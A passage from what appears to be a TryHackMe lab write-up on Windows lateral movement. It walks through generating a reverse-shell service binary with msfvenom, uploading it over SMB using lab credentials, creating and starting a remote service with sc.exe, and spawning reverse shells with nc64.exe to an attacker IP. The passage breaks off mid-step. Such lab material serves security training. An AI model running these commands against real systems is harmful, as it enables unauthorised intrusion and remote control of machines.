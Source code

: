 We can receive the reverse shell connection using nc in our AttackBox as usual:

```shell-session
user@AttackBox$ nc -lvp 4443
```

And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:

THMJMP2: Command Prompt (As t1_leonard.summers)

```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

Be sure to change the name of your service to avoid clashing with other students.

Once you have started the service, you should receive a connection in your AttackBox from where you can access the first flag on t1_leonard.summers desktop.

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.46.98 4443"
```


### Practical
---

In order to get a shell, we need to follow these steps:

1. Generate our payload:

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=IP LPORT=4444 -o bdoor-service.exe
```

2. Start our listener:

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

3. Upload our service using `smbclient`:

```
smbclient -c 'put bdoor-service.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

4. In our remote shell session (SSH), spawn a second reverse shell with `t1_leonard.summers` access token:

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

5. Start the listener:
